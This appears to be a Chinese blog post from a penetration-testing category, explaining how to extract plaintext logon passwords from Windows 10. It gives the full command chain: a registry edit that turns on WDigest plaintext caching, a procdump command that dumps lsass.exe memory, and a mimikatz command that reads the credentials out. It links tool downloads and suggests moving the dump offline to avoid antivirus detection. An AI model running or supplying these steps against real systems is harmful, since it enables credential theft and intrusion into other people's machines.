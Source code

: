 ```yaml
---
title: Windows10明文密码抓取
copyright: true
categories: 内网渗透
tags:
  - mimikatz
  - 内网渗透
  - Windows
  - 密码抓取
abbrlink: b500df40
date: 2020-01-21 17:37:37
---
```


<blockquote class="blockquote-center">桃李春风一杯酒，江湖夜雨十年灯</blockquote>
　　在默认情况下，当系统为win10时，系统默认在内存缓存中是禁止保存明文密码，所以要想使用mimikatz抓取明文账号密码，还得重新配置注册表并重登系统才能抓取明文。

<!-- more -->

**procdump+mimikatz获取win10用户明文密码**

**测试环境：**Win10 企业版LTSC 1809

**工具下载：**k8版本的[mz64.exe](https://github.com/k8gege/K8tools/raw/master/mz64.exe)、[procdumpv9.0](https://download.sysinternals.com/files/Procdump.zip)

**原理：**获取到内存文件lsass.exe进程(它用于本地安全和登陆策略)中存储的明文登录密码

**利用前提：**拿到了admin权限的cmd，管理员用密码登录机器，并运行了lsass.exe进程，把密码保存在内存文件lsass进程中

**抓取明文：**修改注册表，等待系统重新登录，截取dmp文件

### 先修改注册表

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```


　　修改完之后，重新登录账号，此时抓出来的密码就是明文显示。

　　在默认情况下，当系统为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，如下图，密码字段显示为null，此时可以通过修改注册表的方式抓取明文，但需要用户重新登录后才能成功抓取。

![](https://img-blog.csdnimg.cn/20200121171859801.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)



### 重登系统后，抓取dmp文件

管理员权限运行

```
procdump64.exe -accepteula -ma lsass.exe 1.dmp
```

![](https://img-blog.csdnimg.cn/20200121172434448.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

也可以在任务管理器中导出文件，这里需要注意AppData隐藏文件夹

![](https://img-blog.csdnimg.cn/20200121172458293.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)



### 把dmp文件导出到本地使用mimikatz读取密码

　　`我这里是直接在机器上运行mimikatz读取密码了，在实际运用中一般会导出到本地再读取密码，这样才能躲避杀软检测流量特征。对了，这里需要注意的是，一开始我是用官方2.2.0、2.1.1版本的mz通通报错，google发现这应该是跟mz版本还有win10版本有关。`

![](https://img-blog.csdnimg.cn/20200121172517900.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

```
mz64.exe "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit
```


这里我用了k8的mz才没有报错，成功读出win10的明文密码


![](https://img-blog.csdnimg.cn/20200121172529799.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)